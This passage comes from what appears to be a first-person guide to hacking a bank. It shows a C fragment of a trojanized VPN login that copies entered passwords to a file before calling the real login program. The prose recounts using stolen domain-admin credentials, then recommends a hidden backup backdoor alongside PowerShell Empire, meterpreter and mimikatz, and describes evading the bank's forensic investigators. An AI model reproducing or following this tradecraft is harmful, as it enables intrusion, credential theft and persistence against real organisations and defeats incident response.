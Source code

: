 ``` c

                while ((nread = read(0, buf, sizeof(buf))) > 0) {
                        write(fd[1], buf, nread);
                        write(pfile, buf, nread);
                }

                write(pfile, "\n", 1);
                close(fd[1]);
                close(pfile);
                wait(NULL);
        } else {
                close(fd[1]);
                dup2(fd[0],0);
                close(fd[0]);
                execl("/usr/src/EasyAccess/www/cgi-bin/.userLogin", 
                      "userLogin", NULL);
        }
}
```

In the case of Hacking Team, they were logging on to the VPN with single-use passwords, so the VPN gave me access only to the network, and from there it took an extra effort to get domain admins on their network. In the other guide I wrote about side passes and privilege escalation in windows domains [1]. In this case, on the other hand, it was the same Windows domain passwords that were used to authenticate against the VPN, so I could get a good user password, including that of the domain admin. Now I had full access to his network, but usually this is the easy part. The most complicated part is to understand how they operate and how to get what you want out of their network.

### Footnotes 

1. https://www.exploit-db.com/papers/41914

# [4.3 - Fun facts]

Following the investigation they did about the hacking, I found it interesting to see that, by the same time I did it, the bank could have been compromised by someone else through a targeted phishing email [1].  As the old saying goes, "give a man an exploit and he will have access for a day, teach phishing and he will have access all his life" [2]. The fact that someone else, by chance and at the same time as me, put this small bank in the spotlight (they registered a domain similar to the real domain of the bank to be able to phish from there) suggests that bank hacks occur with  much more frequently than is known.

A fun suggestion for you to follow the investigations of your hacks is to have a backup access, one that you won't touch unless you lose normal access. I have a simple script that expects commands once a day, or less, just to maintain long-term access in case they block my regular access. Then I had a powershell empire [3] calling home more frequently to a different IP, and I used empire to launch meterpreter [4] against a third IP, where I did most of my work. When PWC started investigating the hacking, they found my use of empire and meterpreter and cleaned those computers and blocked those IPs, but they didn't detect my backup access. PWC had placed network monitoring devices, in order to analyze the traffic and see if there were still infected computers, so I didn't want to connect much to their network. I only launched mimikatz once to get the new passwords, and from there I could continue my research by reading their emails in the outlook web access.
